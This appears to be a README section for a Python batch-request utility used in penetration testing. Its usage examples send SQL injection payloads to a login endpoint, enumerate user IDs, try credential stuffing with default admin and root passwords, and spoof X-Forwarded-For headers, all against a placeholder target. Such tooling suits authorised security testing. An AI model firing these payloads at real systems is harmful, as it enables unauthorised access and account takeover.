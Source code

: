 ## Batch Requests (`utils/batch_request.py`)

Intruder-like functionality for testing multiple payloads:

```python
import httpx
from utils.batch_request import (
    batch_request_sync,
    generate_param_payloads,
    generate_json_payloads,
    generate_data_payloads,
    generate_header_payloads
)

# Build base request with common parameters
client = httpx.Client()
base = client.build_request(
    "POST",
    "http://target/api/login",
    json={"username": "test", "password": "test"},
    headers={"X-API-Key": "secret"}
)

# Test SQL injection
sqli_payloads = ["' OR '1'='1", "admin'--", "' UNION SELECT NULL--"]
results = batch_request_sync(
    base,
    payloads=generate_json_payloads("username", sqli_payloads),
    validate=lambda r: "dashboard" in r.text or r.status_code == 302,
    concurrency=5,  # 5 requests at a time
    proxy="http://127.0.0.1:8080"  # Debug via Burp
)

# Find successful payloads
for r in results:
    if r.matched:
        out.success(f"Valid payload: {r.payload}")

# Enumerate IDs
results = batch_request_sync(
    client.build_request("GET", "http://target/api/user"),
    payloads=generate_param_payloads("id", range(1, 1000)),
    validate=lambda r: r.status_code == 200,
    concurrency=50  # Fast enumeration
)

# Credential stuffing
creds = [
    {"username": "admin", "password": "admin"},
    {"username": "root", "password": "root"},
]
results = batch_request_sync(
    base,
    payloads=[{"json": cred} for cred in creds],
    validate=lambda r: "success" in r.text,
    concurrency=3  # Be gentle with login endpoints
)

# Header injection testing
results = batch_request_sync(
    client.build_request("GET", "http://target/"),
    payloads=generate_header_payloads("X-Forwarded-For",
                                     ["127.0.0.1", "localhost", "::1"]),
    validate=lambda r: "admin" in r.text
```